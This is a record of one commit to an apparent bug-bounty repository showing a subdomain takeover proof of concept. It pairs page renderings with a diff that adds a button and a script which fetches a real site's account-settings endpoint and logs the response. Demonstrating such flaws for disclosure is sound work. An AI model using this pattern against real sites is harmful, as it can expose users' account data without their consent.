

Before and after one commit to monizb/subdomain-takeover-poc, a plain HTML site: page subdomaintakeoverbymonishbasaniwal.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-947 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

```diff
--- a/subdomaintakeoverbymonishbasaniwal.html
+++ b/subdomaintakeoverbymonishbasaniwal.html
@@ -15,6 +15,7 @@
     <div class="main">
         <h2>Subdomain Takeover PoC By Monish Basaniwal</h2>
     </div>
+    <button onclick="getInfo()">Get Account Info</button>
 </body>
 
 <style>
@@ -39,4 +40,11 @@
     }
 </style>
 
+<script>
+    async function getInfo() {
+        const res = await fetch("https://www.datacamp.com/profile/account_settings");
+        console.log(res);
+    }
+</script>
+
 </html>
```
